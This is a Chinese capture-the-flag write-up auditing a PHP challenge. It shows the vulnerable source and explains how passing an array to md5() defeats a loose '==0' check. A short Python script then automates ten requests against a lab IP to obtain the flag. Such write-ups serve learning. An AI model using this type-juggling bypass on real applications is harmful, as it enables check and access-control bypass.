


# codereading

```php
<?php 
error_reporting(0);
session_start();
require('flag.php');
if(!isset($_SESSION['number'])){
  $_SESSION['number'] = 0;
  $_SESSION['now'] = time();
  $_SESSION['JNsec'] = 'xyz';
}
if($_SESSION['now']+30<time()){
  session_destroy();
}
$whatismd5 = $_REQUEST['whatismd5'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['JNsec']==($whatismd5[0].$whatismd5[1].$whatismd5[2]) && substr(md5($whatismd5),5,4)==0){
  $_SESSION['number']++;
  $_SESSION['JNsec'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['number']>=10){
  echo $flag;
}

show_source(__FILE__);
?>
```

一看就知道是php代码审计

首先是php 的session变量，PHP session 变量用于存储关于用户会话（session）的信息，或者更改用户会话（session）的设置。Session 变量存储单一用户的信息，并且对于应用程序中的所有页面都是可用的。

在我这就是个变量，然后使用它要先session_start()

首先他写了三个session变量

number=0，now=time()，JNsec=xyz

time()函数就是返回时间

```php
<?php
 echo time();
?>
```

写一个简单php，显示一下time()函数是什么



大概就是显示一个很大的数字

主要部分就是这个

```php
if($_SESSION['JNsec']==($whatismd5[0].$whatismd5[1].$whatismd5[2]) && substr(md5($whatismd5),5,4)==0){
  $_SESSION['number']++;
  $_SESSION['JNsec'] = $str_rands;
  echo $str_rands;
}
```

```php
$_SESSION['JNsec']==($whatismd5[0].$whatismd5[1].$whatismd5[2])
```

看这句话，就是whatismd5的值要和JNsec相等，那一开始就令whatismd5=xyz

```php
substr(md5($whatismd5),5,4)==0
```

对于md5()，只要里面是个数组，他就是零

所以我们whatismd5[]=xyz

满足这两个条件他就会给JNsec赋一个随机的字母，只要你做到10次，就可以得到flag

我不知道为啥有时候我输入两次就不行了

所以还是写个脚本 

```python
import requests
url = "http://172.18.146.241:30685/?whatismd5[]=xyz"
s = requests.session()
r = s.get(url)
for i in range(10):
    url = "http://172.18.146.241:30685/?whatismd5[]=" + r.text[0:3]
    r = s.get(url)
print (r.text[0:50])
```



！！！这里text和content不知道什么区别，但是content就不行


